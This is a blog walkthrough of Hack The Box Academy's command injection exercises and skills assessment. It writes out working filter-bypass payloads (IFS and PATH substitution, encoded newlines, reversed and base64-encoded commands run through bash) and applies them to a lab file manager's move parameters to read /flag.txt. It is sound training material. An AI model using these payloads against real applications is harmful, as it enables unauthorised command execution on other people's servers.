```yaml
---
layout: post
title:  "Hack The Box - Academy - Command Injections"
description: "Follow this comprehensive walkthrough of the Hack The Box Academy Command Injection Skills Assessment. Master command injection techniques to exploit vulnerable web applications, perfect for boosting your penetration testing skills and preparing for HTB challenges."
date:   2024-10-19 13:32
image:  /images/htb/command-injection/logo.png
tags:   [command-injection,cbbh]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/109/section/1031">Command Injection</a><br/>
<a href="https://jacozwarts.github.io/images/htb/command-injection/Command_Injections_Module_Cheat_Sheet.pdf">Command Injection - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space">PayloadsAllTheThings - Command Injection - Bypass without Space</a>

<hr/>

### Bypassing Other Blacklisted Characters - Exercises
#### Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?
A gotcha I ran into was I didn't add a `space` between the `;` and command I'm was trying to execute e.g.
`Incorrect payload: 127.0.0.1${LS_COLORS:10:1}$(rev<<<'imaohw')` <br/><br/>
`Correct payload with a encoded \n (%0a)`
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'imaohw')
```
![Bypassing other blacklisted characters exercise gotcha](/images/htb/command-injection/bypassing-other-blacklisted-characters-gotcha.png)

#### Final payload:
Initially, I tried the following command but didn't retrieve the user in `/home`: `127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}%0a${PATH:0:1}home`. The issue stemmed from using the encoded newline character (`%0a`) immediately after `{ls,-la}`, which caused the command to execute incorrectly.

`Correct payload:`
```
127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}${IFS}${PATH:0:1}home
```
<hr/>

### Bypassing Blacklisted Commands
#### Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'tac')${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
<hr/>

### Advanced Command Obfuscation

#### Exercise: Can you test the below command to see if it works on your Linux VM, and then try to avoid using filtered characters to get it working on the web application?
`$(a="WhOaMi";printf %s "${a,,}")`<br/><br/>
First, we tested individual characters to identify which ones were filtered, such as the semicolon (`;`), space, pipe (`|`), ampersand (`&`), etc. In our case, all of these characters were blocked except for the newline character (`%0a`). To proceed, we needed to modify our payload to avoid using these filtered characters. Another solution is to `Base64 encode` the payload to bypass the filtering<br/><br/>

**Updated command without Base64 encoding:**
```
127.0.0.1%0a$(a="WhOaMi"%0aprintf${IFS}%s${IFS}"${a,,}")
```
**Updated command with Base64 encoding:**
```
127.0.0.1%0abash<<<$(base64%09-d<<<JChhPSJXaE9hTWkiO3ByaW50ZiAlcyAiJHthLCx9Iik=)
```

#### Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1
**Execute the below command to base64 encode the payload:**
```
echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64
```

```
127.0.0.1127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```
<hr/>

## Skills Assessment
><b>Overview:</b>
You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.
<br/><br/>
Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

### What is the content of '/flag.txt'?
Start by opening the target in your browser and ensure Burp Suite is intercepting all requests. Log in with the provided credentials: `guest:guest`.
![Login](/images/htb/command-injection/command-injection-skills-assessment-login.png)

Upon examining the target’s features, I identified the following functionalities:
- File Manager
![File Manager](/images/htb/command-injection/command-injection-skills-assessment-file-manager.png)
- Search Functionality
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-search.png)
- Advanced Search
![Advanced Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-advanced-search.png)
- View File
![View File](/images/htb/command-injection/command-injection-skills-assessment-view-file.png)
- Move File
![Move File](/images/htb/command-injection/command-injection-skills-assessment-move-file.png)
- Direct Link
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-direct-link.png)
- Download File
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-download-file.png)

I then intercepted and analyzed these features’ requests through Burp Suite, where I observed that each request has varying parameters, such as:

```
GET /index.php?to=&view=51459716.txt&quickView=1
```
```
GET /index.php?to=&from=51459716.txt
```
```
GET /index.php?to=&dl=51459716.txt
```
```
POST /index.php?to=

...

ajax=true&content=514&path=.&type=search
```
```
GET /index.php?to=&from=605311066.txt
```
```
GET /index.php?to=&from=605311066.txt&finish=1&move=1
```
### Testing for Command Injection
I tested the parameters mentioned above for potential command injection vulnerabilities and found that the `to` and `from` parameters in the 'Move File' request are vulnerable. The next step is to identify which injection operators are allowed. You can refer to the command injection <a href="https://jacozwarts.github.io/images/htb/command-injection/Command_Injections_Module_Cheat_Sheet.pdf">Cheat Sheet</a> to test various operators.

![Testing To Parameter](/images/htb/command-injection/command-injection-skills-assessment-move-file-to-parameter.png)

![Testing From Parameter](/images/htb/command-injection/command-injection-skills-assessment-move-file-from-paramter.png)

![Testing Operator](/images/htb/command-injection/comman-injection-skills-assessment-injection-operators.png)

I discovered that the operator `%26%26` is accepted. Based on the error message, it’s clear the server is using the mv command.
![Valid Operator](/images/htb/command-injection/command-injection-skills-assessment-valid-injection-operator.png)
### Command Injection Payload
```
%26%26whoami
```
![Whoami Command is blocked](/images/htb/command-injection/command-injection-skills-assessment-whoami-blocked.png)

Since whoami is blocked, I’ll encode it using base64. Here’s how to encode the whoami command:

```
echo -n "whoami" | base64
```
**Then replace the space character with a tab (%09):**
```
bash<<<$(base64%09-d<<<"d2hvYW1p")
```
When running this, I encountered the error: missing destination. So, I’ll apply the payload in the `to` parameter as follows:
![Missing Destination](/images/htb/command-injection/command-injection-skills-assessment-missing-destination-error.png)

```
/index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=696212415.txt&finish=1&move=1
```
### Gotcha:
Once you move a file, it cannot be moved again. To get around this, you’ll need to change the filename in the `from` parameter.

![Whoami Result](/images/htb/command-injection/command-injection-skills-assessment-whoami-result.png)

Now that we’ve successfully executed the `whoami` command, the next goal is to read the directory contents using `ls -la`. First, base64 encode the command:

```
echo -n "ls -la" | base64
```

```
bash<<<$(base64%09-d<<<"bHMgLWxh")
```
Update the `from` filename from `696212415.txt` to `787113764.txt` and rerun the payload.

![Read files in directory](/images/htb/command-injection/command-injection-skills-assessment-read-files-result.png)

### Reading the flag.txt File
Finally, let’s try to read the `flag.txt` file. Base64 encode the following:
```
echo -n "cat ${PATH:0:1}flag.txt" | base64
```
```
bash<<<$(base64%09-d<<<"Y2F0IC9mbGFnLnR4dA==")
```
**Change the `from` file name and test the payload.**
![Reading flag.txt content](/images/htb/command-injection/command-injection-skills-assessment-flag-result.png)
<hr/>